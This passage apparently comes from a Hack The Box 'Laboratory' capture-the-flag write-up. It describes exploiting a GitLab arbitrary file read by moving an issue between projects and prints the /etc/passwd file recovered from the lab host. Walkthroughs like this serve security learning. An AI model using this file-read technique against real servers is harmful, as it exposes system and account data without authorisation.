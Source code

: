 We now move the issue to project2.

![Downloading /etc/passwd](/assets/htb/Laboratory/https/exploitation/git-file-download.png)

We successfully extract /etc/passwd from the system!

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh
```